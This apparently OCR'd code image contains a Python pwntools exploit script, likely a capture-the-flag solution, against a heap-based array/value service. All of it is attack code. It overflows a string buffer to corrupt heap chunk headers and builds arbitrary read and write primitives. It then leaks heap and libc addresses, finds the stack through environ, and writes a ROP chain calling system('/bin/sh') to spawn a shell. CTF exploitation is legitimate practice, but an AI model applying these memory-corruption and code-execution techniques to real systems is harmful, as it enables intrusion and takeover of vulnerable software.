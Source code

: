 ```python
add_array([0], 15)
add_array([1], 0)
delete_value([1])
add_value([1], b'a' * 0x30)
delete_value([0, 15])
add_value([0, 15], 0x1337)
#edit_str([1], b'a'*0x20+flat(0xdead, 0xbeef) ) # heap overflow

add_array([2], 2)
add_array([3], 2)

add_value([2, 0], b'b' * 0x10)
edit_str([1], b'a'*0xd0+flat(0, 0x31, 2, 0xfeed0003))

list()
r.recvuntil(b' <I> ')
leak = int(r.recvuntil(b'\n', True))
dbg('leak')
heap = leak - 0x500
dbg('heap')

for i in range(10):
    add_value([0, 4+i], b'x'*0x40)
add_value([0, 4+10], flat(0x21, 0x21) * 4)


def aaw(where, what):
    payload = b''
    payload += b'c'*0x20
    payload += flat(len(what)+1, where)
    payload = payload.ljust(0xd0, b'd')
    payload += flat(0, 0x31, 2, 0xfeed0002)
    edit_str([1], payload)
    edit_str([2, 0], what)

def aar(where):
    payload = b''
    payload += b'c'*0x20
    payload += flat(9, where)
    payload = payload.ljust(0xd0, b'd')
    payload += flat(0, 0x31, 2, 0xfeed0002)
    edit_str([1], payload)
    list()
    r.recvuntil(b'[02] <ARRAY(2)>')
    r.recvuntil(b'<S> ')
    leak = u64(r.recvuntil(b'\n', True).ljust(8, b'\x00'))
    return leak

aaw(heap+0x5e8, p64(0x521))
delete_value([3])
leak = aar(heap+0x5f0)
dbg('leak')
base = leak -0x219ce0
environ = base + 0x221200
rdi = base + 0x001bc061
leak = aar(environ)
dbg('leak')
target = leak -0x120
binsh = base + 0x1d8698
system = base+ 0x50d60
puts = base + 0x80ed0
aaw(target, flat(rdi+1, rdi, binsh, system))
#leak = aar(target)
```